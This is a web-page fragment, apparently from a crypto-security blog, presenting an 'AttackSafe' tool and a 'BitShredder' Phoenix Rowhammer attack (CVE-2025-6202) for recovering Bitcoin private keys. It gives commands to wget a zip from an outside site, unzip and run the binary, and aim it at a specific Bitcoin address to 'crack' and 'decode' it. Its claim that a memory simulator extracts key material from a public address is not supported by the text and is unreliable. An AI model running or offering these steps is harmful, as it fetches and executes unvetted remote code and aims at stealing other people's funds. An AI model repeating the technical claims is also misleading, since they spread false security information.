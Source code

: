 <p>We use the AttackSafe crypto tool to extract hidden remainders from Ramulator2 using a simulator.</p>



<h3 class="wp-block-heading">Let’s run the command to download the AttackSafe crypto tool</h3>



<p><a href="https://github.com/demining/Phoenix-Rowhammer-Attack-CVE-2025-6202/blob/main/README.md#lets-run-the-command-to-download-the-attacksafe-crypto-tool"></a></p>



<pre class="wp-block-code"><code><strong>!wget https://attacksafe.ru/repositories/attacksafe.zip
!unzip attacksafe.zip</strong></code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-image"><a href="https://github.com/demining/Phoenix-Rowhammer-Attack-CVE-2025-6202/blob/main/Phoenix%20Rowhammer%20Attack%20Systemic%20Risk%20of%20Bitcoin%20Wallet%20Private%20Key%20Compromise%20in%20Global%20Blockchain%20Infrastructure%20Due%20to%20a%20Critical%20SK%20Hynix%20DDR5%20Vulnerability%20CVE-2025-6202%20-%20CRYPTO%20DEEP%20TECH_files/image-78.png" target="_blank" rel="noreferrer noopener"><img src="https://github.com/demining/Phoenix-Rowhammer-Attack-CVE-2025-6202/raw/main/Phoenix%20Rowhammer%20Attack%20Systemic%20Risk%20of%20Bitcoin%20Wallet%20Private%20Key%20Compromise%20in%20Global%20Blockchain%20Infrastructure%20Due%20to%20a%20Critical%20SK%20Hynix%20DDR5%20Vulnerability%20CVE-2025-6202%20-%20CRYPTO%20DEEP%20TECH_files/image-78.png" alt="Phoenix Rowhammer Attack: A systemic risk of compromising Bitcoin wallet private keys in the global blockchain infrastructure due to a critical vulnerability in SK Hynix DDR5 (CVE-2025-6202)"/></a></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code><strong>!./attacksafe -help</strong></code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-image"><a href="https://github.com/demining/Phoenix-Rowhammer-Attack-CVE-2025-6202/blob/main/Phoenix%20Rowhammer%20Attack%20Systemic%20Risk%20of%20Bitcoin%20Wallet%20Private%20Key%20Compromise%20in%20Global%20Blockchain%20Infrastructure%20Due%20to%20a%20Critical%20SK%20Hynix%20DDR5%20Vulnerability%20CVE-2025-6202%20-%20CRYPTO%20DEEP%20TECH_files/image-80.png" target="_blank" rel="noreferrer noopener"><img src="https://github.com/demining/Phoenix-Rowhammer-Attack-CVE-2025-6202/raw/main/Phoenix%20Rowhammer%20Attack%20Systemic%20Risk%20of%20Bitcoin%20Wallet%20Private%20Key%20Compromise%20in%20Global%20Blockchain%20Infrastructure%20Due%20to%20a%20Critical%20SK%20Hynix%20DDR5%20Vulnerability%20CVE-2025-6202%20-%20CRYPTO%20DEEP%20TECH_files/image-80.png" alt="Phoenix Rowhammer Attack: A systemic risk of compromising Bitcoin wallet private keys in the global blockchain infrastructure due to a critical vulnerability in SK Hynix DDR5 (CVE-2025-6202)"/></a></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading">Find hidden remainders (modulo) associated with a Bitcoin address</h2>



<p><a href="https://github.com/demining/Phoenix-Rowhammer-Attack-CVE-2025-6202/blob/main/README.md#find-hidden-remainders-modulo-associated-with-a-bitcoin-address"></a></p>



<pre class="wp-block-preformatted"></pre>



<p>The team is launching a specialized&nbsp;<strong><a href="https://keyhunters.ru/bitshredder-attack-memory-vulnerability-turns-lost-bitcoin-wallets-into-trophies-and-complete-btc-theft-via-private-key-recovery-where-attackers-exploit-the-memory-phantom-attack-cve-2025-8217-cve/">“BitShredder”</a></strong>&nbsp;attack based on the&nbsp;<strong>AttackSafe</strong>&nbsp;crypto tool to find hidden modulo remnants associated with a Bitcoin address, using RAM bug mechanisms (Rowhammer) and a memory emulator (ramulator2).&nbsp;<a href="https://github.com/demining/Rowhammer-Attack">github+2</a></p>



<pre class="wp-block-preformatted"><strong>!<code>./</code>attacksafe<code> -tool bitshredder_attack -crack phoenix_rowhammer/ramulator2 -decode 15ZwrzrRj9x4XpnocEGbLuPakzsY2S4Mit</code></strong></pre>

